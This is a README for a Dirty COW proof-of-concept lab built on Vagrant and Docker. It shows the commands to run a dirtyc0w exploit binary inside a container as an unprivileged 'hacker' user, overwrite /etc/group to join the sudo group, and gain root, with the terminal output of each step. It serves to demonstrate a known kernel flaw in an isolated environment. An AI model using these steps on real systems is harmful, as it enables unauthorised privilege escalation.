 # Dirtyc0w Docker POC

```
Prerequisites:
- Vagrant installed

```

# How to use

Firstly 
``
git clone https://github.com/BrolyCode/Dirty-Cow.git && cd Dirty-Cow
``
Then run up the environment with the command
```
vagrant up
```
Once the server is built, we will ssh into it
```
vagrant ssh
```
change to the root user
```
sudo -i
```
The first container should be running as part of the build process, we can check this with
```
docker ps
```
You should get something like
```
CONTAINER ID        IMAGE               COMMAND                  CREATED             STATUS              PORTS                         NAMES
db86f1c04483        scottyc/dirtyc0w    "nginx -g 'daemon off"   22 seconds ago      Up 19 seconds       0.0.0.0:80->80/tcp, 443/tcp   nginx
```
Now we can log on as the hacker 
```
docker exec -it -u hacker nginx bash
```
In the directory we are logged into we have the following files
```
drwxrwxrwt  2 root root  4096 Nov  26 11:10 .
drwxr-xr-x 41 root root  4096 Nov  26 11:10 ..
-rwxr-xr-x  1 root root  9880 Nov  26 04:52 dirtyc0w
-rwxrwxrwx  1 root root  9880 Nov  26 04:52 dirtyc0w.c
```
If we cat the file `/etc/group` we see
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:
....

We try to log in as root
```
sudo -i

```
We will now exploit the file `/etc/group`
```
./dirtyc0w 
```
It will print out the following to the terminal
```
mmap 7fd0facf4000

madvise 0

procselfmem 1500000000
```
Then we will cat `/etc/group` again
```
hacker@27862a2f9973:~$ cat /etc/group
root:x:0:
daemon:x:1:
bin:x:2:
sys:x:3:
adm:x:4:
tty:x:5:
disk:x:6:
lp:x:7:
mail:x:8:
news:x:9:
uucp:x:10:
man:x:12:
proxy:x:13:
kmem:x:15:
dialout:x:20:
fax:x:21:
voice:x:22:
cdrom:x:24:
floppy:x:25:
tape:x:26:
sudo:x:27:hacker
...

Login as root
```
sudo -i




# Clean Up

Exit back to your host machines terminal and issue `vagrant destroy`

